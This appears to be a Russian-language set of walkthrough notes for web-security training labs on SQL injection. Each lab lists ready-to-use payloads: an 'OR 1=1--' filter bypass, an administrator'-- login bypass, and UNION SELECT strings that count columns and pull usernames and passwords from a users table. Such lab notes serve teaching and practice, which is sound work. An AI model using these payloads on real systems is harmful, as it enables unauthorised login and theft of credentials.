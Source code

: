 + SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'OR 1=1--".
  + WIN.
+ Lab: SQL injection vulnerability allowing login bypass
  + Открываем форму для ввода логина и пароля.
  + В поле Login вводим "administrator'-- ", а в поле Password любые символы.
  + WIN.
+ Lab: SQL injection UNION attack, determining the number of columns returned by the query
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL,+NULL--". Ошибки нет.
  + WIN.
+ Lab: SQL injection UNION attack, finding a column containing text
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL--". Ошибка => дописываем еще NULL.
  + В итоге для urla с дописанной строкой "'+UNION+SELECT+NULL,+NULL,+NULL--" ошибки нет.
  + Вместо каждого NULL подставляем 'a'.
  + Для "'+UNION+SELECT+NULL,+'a',+NULL--" ошибки нет, нашли столбец с текстовыми данными.
  + Вместо 'a' вводим предложенну строку ('sypRvz').
  + WIN.
+ Lab: SQL injection UNION attack, retrieving data from other tables
  + Переходим в один из разделов, например Tech gifts.
  + В строке urla дописываем "' UNION SELECT username, password FROM users--".
  + Видим логин administrator и соответствующий ему пароль t13tj637awscv622pug6, вводим их в форму логина.
  + WIN.
+ Lab: SQL injection UNION attack, retrieving multiple values in a single column
  + Переходим в один из разделов, например Gifts.
  + В строке urla дописываем "'+UNION+SELECT+NULL+FROM+users--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+NULL+FROM+users--". Ошибки нет.
  + В строке urla дописываем "'+UNION+SELECT+username,+password+FROM+users--". Ошибка.
  + В строке urla дописываем "'+UNION+SELECT+NULL,+username||'~'||password+FROM+users--". Ошибки нет.
  + Видим строку administrator~mhzg7sj4crpgoavh769q, вводим в форму логина логин administrator и пароль mhzg7sj4crpgoavh769q.
  + WIN.
